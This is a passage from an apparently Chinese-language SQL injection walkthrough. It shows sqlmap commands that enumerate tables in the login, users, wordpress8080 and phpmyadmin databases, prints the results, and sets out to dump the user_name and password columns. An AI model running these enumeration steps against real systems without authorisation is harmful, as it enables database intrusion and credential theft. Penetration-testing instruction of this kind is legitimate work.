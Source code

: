 ![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibeFKBD4IxCbXZ8sQYhY2yeGLcibVjvcax1G5laCWAxysag0FLYPAHLDicotWglWGiaRGVj5n28m492A/640?wx_fmt=png)

sqlmap -r sqltest.txt -D login --tables --batch

**跑表名**

```
+-----------+
| user\_name |
| users     |
+-----------+
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibeFKBD4IxCbXZ8sQYhY2yeOl3IrXHibqEVCiaywyWvPnMOXg7M4QKUibKFncYUoexKJcYMmMIoXtR2w/640?wx_fmt=png)

sqlmap -r sqltest.txt -D users --tables --batch

结果，users 下没有表

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibeFKBD4IxCbXZ8sQYhY2ye3S4EgXwL9wqYQ0bSYrWxXdYvpI2ib4acib6UWbcnIlyevWatvQwxXaFQ/640?wx_fmt=png)

sqlmap -r sqltest.txt -D wordpress8080 --tables --batch

```
+-------+
| users |
+-------+
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibeFKBD4IxCbXZ8sQYhY2yelyBVticykrwYAf0whDJKEUxAddh6dSyXKcO8mFwzmMYzCbZshCpUNYg/640?wx_fmt=png)

sqlmap -r sqltest.txt -D phpmyadmin --tables --batch

```
+---------------------+
| pma\_bookmark        |
| pma\_column\_info     |
| pma\_designer\_coords |
| pma\_history         |
| pma\_pdf\_pages       |
| pma\_recent          |
| pma\_relation        |
| pma\_table\_coords    |
| pma\_table\_info      |
| pma\_table\_uiprefs   |
| pma\_tracking        |
| pma\_userconfig      |
+---------------------+
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibeFKBD4IxCbXZ8sQYhY2yeJtAwfvL0kxOBZKUkk7pwMEuRibaaWr6BpgDjicAKpjMpSEURUia9QGjsQ/640?wx_fmt=png)

**跑字段**

查询 login 数据库下 users 表中的字段，password 和 user\_name
